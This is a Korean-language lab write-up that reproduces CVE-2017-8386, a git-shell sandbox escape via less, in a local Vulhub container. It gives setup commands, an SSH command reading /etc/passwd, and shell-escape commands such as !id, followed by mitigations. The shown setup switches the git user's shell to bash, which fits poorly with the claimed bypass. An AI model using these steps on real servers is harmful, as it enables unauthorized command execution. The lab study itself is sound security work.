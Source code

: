 # CVE-2017-8386: git-shell Sandbox Bypass to RCE PoC

## 1. 개요
Git-shell은 SSH를 통해 제한된 git 명령만 허용하는 환경을 제공합니다. 하지만 특정 버전의 git-shell(2.12.2 등)에서는 `less` 명령어를 악용해 sandbox를 우회하고 시스템 명령어를 실행할 수 있는 취약점(CVE-2017-8386)이 존재합니다.

본 보고서는 해당 취약점에 대한 PoC를 진행하고 과정을 정리한 것입니다.

## 2. 환경 구축

### 2.1 사용 도구 및 버전
- Docker: 24.0.7
- Docker-Compose: v2.34.0
- Host OS: macOS
- Target OS: Ubuntu 16.04 (컨테이너 내부)
- Git Version: 2.12.2
- SSH Server

### 2.2 Vulhub 레포지토리 클론
`git clone https://github.com/phith0n/vulhub.git`
`cd vulhub/git/CVE-2017-8386/`

### 2.3 docker-compose.yml 및 Dockerfile 구성
	• Ubuntu 16.04 베이스 이미지
	• Git 2.12.2 소스 설치
	• OpenSSH 서버 설치 및 실행
	• git-shell 환경 설정 (git 사용자 생성)

### 2.4 컨테이너 빌드 및 실행
`docker-compose build`
`docker-compose up -d`
`docker ps`
	• 컨테이너 실행 확인 (git-shell-cve-2017-8386)

### 2.5 SSH 키 등록 및 환경 설정
	1. 로컬에서 id_rsa.pub 생성 및 복사
	2. 컨테이너 내부 접속 및 git 사용자로 전환
	3. authorized_keys 등록

`docker exec -it git-shell-cve-2017-8386 /bin/bash`
`chsh -s /bin/bash git`
`su git`
`mkdir -p ~/.ssh`
`chmod 700 ~/.ssh`
`touch ~/.ssh/authorized_keys`
`chmod 600 ~/.ssh/authorized_keys`
`vim ~/.ssh/authorized_keys`


### 2.6 추가 패키지 설치
`apt update`
`apt install less -y`
`apt install man-db -y`


	• PoC 수행을 위해 less, man 패키지 설치 완료

## 3. PoC 과정

### 3.1 정상적인 SSH 접속
`ssh -p 3322 -i id_rsa -t git@127.0.0.1 "less /etc/passwd"`


• less 화면 진입 성공


• ! 명령어를 통해 시스템 명령어 실행 가능


### 3.2 명령어 실행 (sandbox 우회)
• !id -> 사용자 ID, 그룹 ID 출력
![first_execute.png](https://github.com/suz1n/WHS3_vulhub/blob/main/first_execute.png)


• !whoami -> 현재 사용자(git)


• !uname -a -> 시스템 커널 정보 출력


• !ls /home/git -> git 홈 디렉토리 파일 목록 출력


## 4. 취약점 분석
	• git-shell 환경에서는 사용자가 시스템 명령어를 실행할 수 없게 제한함.
	• 그러나 `git-upload-archive --help` 명령어를 통해 내부적으로 less 호출이 가능.
	• less 명령어는 ! 기능을 통해 시스템 쉘 명령 실행을 지원.
	• 결과적으로 git-shell sandbox를 우회하여 임의 명령어 실행이 가능함.

## 5. 대응 방안
	• 취약한 버전의 git-shell(2.12.2 등)을 사용하지 말고 최신 버전으로 업데이트
	• git-shell 명령어 허용 목록을 엄격히 관리
	• 필요시 less와 같은 명령어를 서버에서 제거 또는 제한 설정

## 6. GitHub 레포지토리 링크
https://github.com/suz1n/WHS3_vulhub
